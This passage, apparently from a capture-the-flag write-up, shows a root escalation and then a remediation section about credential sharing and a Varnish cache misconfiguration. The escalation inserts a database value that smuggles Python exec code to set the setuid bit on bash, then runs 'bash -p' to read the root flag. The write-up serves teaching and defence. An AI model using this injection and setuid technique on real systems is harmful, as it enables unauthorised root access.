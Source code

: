 ```shell
| user   | text | YES  |     | NULL    |       |
| issue  | text | YES  |     | NULL    |       |
| link   | text | YES  |     | NULL    |       |
| reason | text | YES  |     | NULL    |       |
+--------+------+------+-----+---------+-------+
COMMENT

insert into escalate values ("diego","failure","localhost",'inject=exec("""\nimport os\nos.system("chmod +s /usr/bin/bash")""")');
exit

# back on normal terminal
sudo /opt/security/ml_security.py
bash -p
id
cat /root/root.txt     # capture the root flag
```

##### Remediation
**Fixing the Foothold Vector**  
On an employee level, the user Diego should never have shared his credentials via that medium. There are several tools for sharing sensitive credentials e.g keybase. Some of these tools destroy the credentials after the first read. The Tickets(escalated) tab was disabled so that only admins can access it. Notice that if you logged in with the admin credentials looted from the bot.py it shows 'Logged In As Robert' navigating to the `/admin_tickets` then shows 'Logged In As Admin' and the Tickets(Escalated) tab remained disabled. There are quite some flaws with this application. However, focusing on the infrastructure end there is one fundamental mistake the administrator made in the varnish configuration i.e allowing the session cookie to be returned on the cached content.
```shell
# show running services
systemctl list-units --no-pager --type=service --state=running  # note: varnish.service 

# view service status and configuration
systemctl status varnish.service
cat /lib/systemd/system/varnish.service
cd /etc/varnish/                            # varnish configuration folder
ls -la
#--snip--#
-rw-r--r--   1 root root  354 Nov  7 11:15 default.vcl
-rw-------   1 root root   37 Jun 24  2022 secret
```

[/lib/systemd/system/varnish.service](#varnish%20service%20configuration)
```text
[Unit]
Description=Varnish HTTP accelerator
Documentation=https://www.varnish-cache.org/docs/6.1/ man:varnishd

[Service]
Type=simple
LimitNOFILE=131072
LimitMEMLOCK=82000
ExecStart=/usr/sbin/varnishd -j unix,user=vcache -F -a :80 -T localhost:6082 -f /etc/varnish/default.vcl -S /etc/varnish/secret -s malloc,256m
ExecReload=/usr/share/varnish/varnishreload
ProtectSystem=full
ProtectHome=true
PrivateTmp=true
PrivateDevices=true

[Install]
WantedBy=multi-user.target
```
